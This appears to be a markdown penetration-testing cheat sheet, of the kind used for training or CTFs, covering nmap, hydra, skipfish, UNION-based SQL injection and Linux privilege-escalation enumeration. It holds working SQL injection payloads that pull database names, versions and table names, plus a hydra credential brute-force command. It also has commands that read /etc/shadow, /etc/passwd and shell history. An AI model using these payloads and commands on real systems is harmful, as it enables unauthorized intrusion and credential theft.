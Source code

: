## nmap commands
- `nmap -sV -p <list of ports> <IP address>`: Lists all the services running on the ports

## hydra commands
- `hydra -C <username & password file> ftp://<IP address>`: Attempts to log in to the FTP service at the specified IP address using a list of username and password combinations provided in the file.

## skipfish commands
- `skipfish -o <Output file> <website url>`: Crawls the website to find all available directories
- `skipfish -o <Output file> -A <user>:<password> <website url>`: Crawls while logged in with HTML credentials

## SQL Injection
### SQL Injection in search fields
Lets say the search page is handled by a file named sql.php and the parameter is search.
Sql.php?search=pentesting  
First thing we try is to search with single quote '  
`Sql.php?search='`  
If it retruns an error, then we know its vulnerable.
Our next step is to determine the number of columns starting from running a normal query
on the search box to get an idea.  
Finding the number of columns:  
`Sql.php?search=test' order by 1-- -` [In the search field: `test' ORDER BY 1-- -`]  
or  
`Sql.php?search=test' order by 1--` [In the search field: `test' ORDER BY 1--`]  
We keep incrementing the number until we hit an error which indicates the number of columns.

Then we search for something similar to that below:  
`Sql.php?search=pentesting' union select 1,1,1,1,1,1#` [In the search field: `pentesting' UNION SELECT 1,1,1,1,1,1-- -`]  
or  
`Sql.php?search=pentesting' AND 1 = 0 UNION ALL SELECT 1,1,1,1,1,1 FROM information_schema.tables WHERE 1=0 OR 1=1-- `  
We continue adding '1's untill we don't receive any error from the page.
Only then we know how many columns by counting the '1's.

Then we try to find the database name, table names, columns of target table  
`Sql.php?search=pentesting' union select 1,database(),@@version,1,1,1#`  
or  
`Sql.php?search=pentesting' and 1 = 0 union all select 1,database(),@@version,1,1,1 from information_schema.tables where 1=0 OR 1=1-- -`  

`Sql.php?search=pentesting' union select 1,table_name,1,1,1,1 from information_schema.tables#` [In the search field: `pentesting' UNION SELECT 1,table_name,1,1 FROM information_schema.tables-- -`]

## Privilege escalation (Linux)
https://www.youtube.com/watch?v=ZTnwg3qCdVM
### System Enumeration
First get OS version, such that you can look for exploits of it and to be able to keep track of it  
`uname -a`  
Get info of the architecture, so you know vendor type, amount of cores and threads, etc. (good to know for some exploits)  
`lscpu`  
Check what services are running.  
`ps aux`  

### User Enumeration
To find out who we are, what permissions we have and what we are capable of doing.  
To check our username, what id´s everybody on the system has, and what sudo commands we can run, we use the following commands  
`whoami` `id` `sudo -l`  
We can check for other users  
`cat /etc/passwd | cut -d : -f 1`
We should look if we have access to any sensitive files, such as the shadow file
`cat /etc/shadow`  
Look at history is available, as in commands done by user  
`history`  

### Network Enumeration
To better understand the what our IP architecture is, what we're interacting with and what open ports may be available internally the might not be exposed externally.  
Check first out IP-address. We get information if it might be dual homed, communication with multiple networks. Then we'll get multiple IP-addresses. Check the "inet" address.
`ifconfig` or `ip a`  
We can also use this command to check if the machine is communicating with another. We'll see our network first with the bits masked, next to it we can see our sourced adress ("src") which is our actually IP-address.
Then underneath we can see which address it's sourced through (Which is on of it's routes).  
`ip route`  
Another way to look at that too is with ARP tables. ARP tables will tell us who we're communicating with and maybe there's a machine that we're talking with kind of back and forth.  
`arp -a` or `ip neigh`  
Lastly we want to identify the ports what ports are open as well as what Communications exist. If there are machines communicating with the machine we're on we might be able to find an exploit.
We want to check if maybe any port is open only for the localhost ("127.0.0.1"), since then it won't be open externally.  
`netstat -ano`
